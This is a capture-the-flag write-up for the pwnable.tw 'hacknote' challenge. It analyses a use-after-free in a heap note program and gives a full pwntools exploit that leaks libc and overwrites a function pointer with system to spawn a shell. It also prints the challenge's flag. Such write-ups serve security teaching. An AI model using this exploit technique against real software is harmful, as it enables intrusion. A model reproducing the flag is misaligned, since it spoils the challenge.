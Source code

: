 ---
title: '[PWNABLE.TW] - hacknote'
description: 'Is it note safe?'
image: '../../../img/cover_photo_wargame_imresizer.png'
date: 2025-05-03
tags: ['2025', 'Wargame', 'pwnable.tw']
authors: ['kdot']
draft: false
---


## Challenge Information

<Challenge
  category="pwn"
  points={200}
  description="A good Hacker should always take good notes!"
  flag="FLAG{Us3_aft3r_fl3333_in_h4ck_not3}"
>
</Challenge>

## Reverse Engineering

```sh title='checksec'
alter ^ Sol in /mnt/e/sec/lab/pwnable.tw/hacknote
$ checksec hacknote
[*] '/mnt/e/sec/lab/pwnable.tw/hacknote/hacknote'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
```

So we start with using `checksec` to check the binary's security. We can see that the binary has a stack canary, no PIE, and NX enabled. Now let's use IDA to decompile the binary and analyze it.

<details id="main">
<summary>main function</summary>
<p>

```c
void __noreturn main()
{
  int choice; // eax
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v2; // [esp+Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, buf, 4u);
      choice = atoi(buf);
      if ( choice != 2 )
        break;
      delete();
    }
    if ( choice > 2 )
    {
      if ( choice == 3 )
      {
        print();
      }
      else
      {
        if ( choice == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( choice != 1 )
        goto LABEL_13;
      add();
    }
  }
}
```

</p>
</details>

<details id="note struct">
<summary>note struct</summary>
<p>
```sh title='note_t struct'
00000000 struct note_t // sizeof=0x8
00000000 {
00000000     void (*pFun)(const char *);
00000004     char *content;
00000008 };
```
</p>
</details>

<details id="add">
<summary>add function</summary>
<p>
```c
unsigned int add()
{
  note_t *note; // ebx
  int idx; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf[8]; // [esp+14h] [ebp-14h] BYREF
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( n5 <= 5 )
  {
    for ( idx = 0; idx <= 4; ++idx )
    {
      if ( !ptr[idx] )
      {
        ptr[idx] = (note_t *)malloc(8u);
        if ( !ptr[idx] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        ptr[idx]->pFun = (void (*)(const char *))puts_w;
        printf("Note size :");
        read(0, buf, 8u);
        size = atoi(buf);
        note = ptr[idx];
        note->content = (char *)malloc(size);
        if ( !ptr[idx]->content )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, ptr[idx]->content, size);
        puts("Success !");
        ++n5;
        return __readgsdword(0x14u) ^ v5;
      }
    }
  }
  else
  {
    puts("Full");
  }
  return __readgsdword(0x14u) ^ v5;
}
```
</p>
</details>

<details id="delete">
<summary>delete function</summary>
<p>
```c
unsigned int delete()
{
  int n5; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, buf, 4u);
  n5 = atoi(buf);
  if ( n5 < 0 || n5 >= ::n5 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[n5] )
  {
    free(ptr[n5]->content);
    free(ptr[n5]);
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```
</p>
</details>

<details id="print">
<summary>print function</summary>
<p>
```c
unsigned int print()
{
  int n5; // [esp+4h] [ebp-14h]
  char buf[4]; // [esp+8h] [ebp-10h] BYREF
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, buf, 4u);
  n5 = atoi(buf);
  if ( n5 < 0 || n5 >= ::n5 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[n5] )
    ptr[n5]->pFun((const char *)ptr[n5]);
  return __readgsdword(0x14u) ^ v3;
}
```

</p>
</details>

So we can see that the binary has a menu with 4 options:

1. Add a note
2. Delete a note
3. Print a note
4. Exit

In the `add` function, the program lets us create a note with a size we choose. Each note is 8 bytes in size and contains a function pointer and a content pointer. The `delete` function allows us to remove a note at a chosen index. However, there is a `Use-After-Free` vulnerability because the pointer is not cleared after the memory is freed. The `print` function lets us print a note at any index we choose. One special thing here is that it uses the function pointer stored inside the note to print the content.

## Exploit Strategies

We need to do two things here:

- Since the binary doesn't have free leak for us -> We need to leak libc address to calculate the base address of libc.
- Leverage the `print` function to arbitrary code execution, since we can control the function pointer via `Use-After-Free`.

## Exploit Development

Because this is the heap note challenge so I create some helper functions to make the exploit easier to read. The first function is `add`, which allows us to add a note with a size of our choice. The second function is `delete`, which allows us to delete a note at the index we choose. The third function is `print`, which allows us to print a note at the index we choose.

```py title='exploit.py'
def choice(option: int):
    sna(b'choice :', option)


index = 0
def add(size, content):

    global index
    index += 1
    choice(1)
    sna(b'size :', size)
    sa(b'Content :', content)
    return index - 1


def delete(index):
    choice(2)
    sna(b'Index :', index)


def print(index):
    choice(3)
    sna(b'Index :', index)
```

Then I will create 2 notes and then free these 2 notes, the purpose of this is we want to change the address of `content pointer` to the address of `GOT` to leak, and if we only free a single chunk, for example I create a note of 0x10 bytes, then in fastbins it will look like this

```sh title='GDB'
pwndbg> fastbins
fastbins
0x10: 0x804b000 ◂— 0
0x18: 0x804b010 ◂— 0
```

Even though the program doesn’t delete the data when it calls free, so the content in memory stays the same, the real problem is in the `add()` function. Before the program lets us write to the note’s content, it first creates a new note with a fixed size of 0x8 bytes.

Because of this, it takes a chunk from the fastbin — which is the same memory we might want to change. So, even if the old data is still there, that chunk is now used for a new note, and we lose the chance to change or control it. And that's why we need to create 2 chunks and free them.

```py title='exploit.py'

    chunkA = add(0x10, b'A'*4)      # index 0
    chunkB = add(0x10, b'B'*4)      # index 1

    delete(chunkA)
    delete(chunkB)
```

```sh title='GDB'
pwndbg> fastbins
fastbins
0x10: 0x804b028 —▸ 0x804b000 ◂— 0
0x18: 0x804b038 —▸ 0x804b010 ◂— 0
pwndbg> vis

0x804b000       0x00000000      0x00000011      ........         <-- fastbins[0x10][1]
0x804b008       0x00000000      0x0804b018      ........
0x804b010       0x00000000      0x00000019      ........         <-- fastbins[0x18][1]
0x804b018       0x00000000      0x00000000      ........
0x804b020       0x00000000      0x00000000      ........
0x804b028       0x00000000      0x00000011      ........         <-- fastbins[0x10][0]
0x804b030       0x0804b000      0x0804b040      ....@...
0x804b038       0x00000000      0x00000019      ........         <-- fastbins[0x18][0]
0x804b040       0x0804b010      0x00000000      ........
0x804b048       0x00000000      0x00000000      ........
0x804b050       0x00000000      0x00020fb1      ........         <-- Top chunk
```

So the next time we `add` a note, we will request a size `0x8`, then with `malloc(0x8)`, first it will take `0x804b028` and with the next time it will take `0x804b000` and allow us to write here, and `0x804b000` is chunkA with index 0, so when we use the `print()` function with index 0, we will get the address of libc

```py title='exploit.py'
    chunkC = add(0x8, p32(printFunc) + p32(exe.got.puts))
    print(chunkA)

    puts = u32(rb(4))
    libc.address = puts - libc.sym.puts

    info('puts @ %#x', puts)
    success('libc base @ %#x', libc.address)
```

Check the heap again:

```sh title='GDB'
pwndbg> vis

0x804b000       0x00000000      0x00000011      ........
0x804b008       0x0804862b      0x0804a024      +...$...
0x804b010       0x00000000      0x00000019      ........         <-- fastbins[0x18][1]
0x804b018       0x00000000      0x00000000      ........
0x804b020       0x00000000      0x00000000      ........
0x804b028       0x00000000      0x00000011      ........
0x804b030       0x0804862b      0x0804b008      +.......
0x804b038       0x00000000      0x00000019      ........         <-- fastbins[0x18][0]
0x804b040       0x0804b010      0x00000000      ........
0x804b048       0x00000000      0x00000000      ........
0x804b050       0x00000000      0x00020fb1      ........         <-- Top chunk
```

Nice nice, everything is working as expected. `chunkA` is at `0x804b000`, and `chunkC` is at `0x804b028`. After have the libc base address, we just need to do the same method, `delete(chunkC)` and we will have 2 0x8 bytes chunks in fastbins, `add()` new note, and then write the address of `system` and the strinng `;sh;` to it

```py title='exploit.py'
    delete(chunkC)
    chunkD = add(0x8, p32(libc.sym.system) + b';sh;\0')
    print(chunkA)
```

<details id="full exploit">
<summary>Full exploit</summary>
<p>

```py title='exploit.py'
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.6", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./hacknote_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, aslr=False, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
init-pwndbg

b *0804869A
b *0x804872C
b *0x804893D
b *0x8048863
b *0x8048863

c
'''

p = start()

# ==================== EXPLOIT ====================

def choice(option: int):
    sna(b'choice :', option)


index = 0
def add(size, content):

    global index
    index += 1
    choice(1)
    sna(b'size :', size)
    sa(b'Content :', content)
    return index - 1


def delete(index):
    choice(2)
    sna(b'Index :', index)


def print(index):
    choice(3)
    sna(b'Index :', index)


def exploit():

    printFunc = 0x804862B

    chunkA = add(0x10, b'A'*4)      # index 0
    chunkB = add(0x10, b'B'*4)      # index 1

    delete(chunkA)
    delete(chunkB)

    chunkC = add(0x8, p32(printFunc) + p32(exe.got.puts))
    print(chunkA)

    puts = u32(rb(4))
    libc.address = puts - libc.sym.puts

    info('puts @ %#x', puts)
    success('libc base @ %#x', libc.address)

    delete(chunkC)
    chunkD = add(0x8, p32(libc.sym.system) + b';sh;\0')
    print(chunkA)


    interactive()

if __name__ == '__main__':
    exploit()
```
</p>
</details>
